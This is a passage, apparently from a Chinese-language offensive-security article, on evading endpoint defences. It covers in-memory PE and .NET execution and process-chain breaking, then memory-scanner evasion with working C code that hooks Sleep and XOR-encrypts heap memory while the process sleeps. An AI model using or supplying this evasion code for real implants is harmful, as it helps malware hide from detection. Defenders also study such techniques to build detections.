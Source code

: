-   利用 Inline-Execute-PE  在内存中加载运行 PE 文件
    
-   利用 BOF.NET 在内存中执行.NET 程序集文件
    

-   进程断链：断掉父子进程链
    

-   利用模拟运行断链
    
-   利用 WMIC 断链
    
-   利用 Com 断链
    

## 0x03 Memory Scanners Evasion (内存扫描规避)

### 一、检测机制

-   内存扫描：扫描内存查找注入的恶意代码，并检测进程内存空间中的可疑 API 调用
    
-   检测项：进程信息、shellcode 特征、堆栈、内存映像
    

  

### 二、规避技巧

-   睡眠混淆：hook sleep 函数，实现内存加密和解密
    

Heap  Encryption

通过 Hook Sleep 函数，睡眠期间加密堆内存规避内存扫描：

```bash
void WINAPI HookedSleep(DWORD dwMiliseconds) {
        DoSuspendThreads(GetCurrentProcessId(), GetCurrentThreadId());
        HeapEncryptDecrypt();

        OldSleep(dwMiliseconds);

        HeapEncryptDecrypt();
        DoResumeThreads(GetCurrentProcessId(), GetCurrentThreadId());
}
```

```bash
关键部分代码，加密堆内存：
```

```bash
static PROCESS_HEAP_ENTRY entry;
VOID HeapEncryptDecrypt() {
    SecureZeroMemory(&entry, sizeof(entry));
    while (HeapWalk(currentHeap, &entry)) {
        if ((entry.wFlags & PROCESS_HEAP_ENTRY_BUSY) != 0) {
            XORFunction(key, keySize, (char*)(entry.lpData), entry.cbData);
        }
    }
}
```
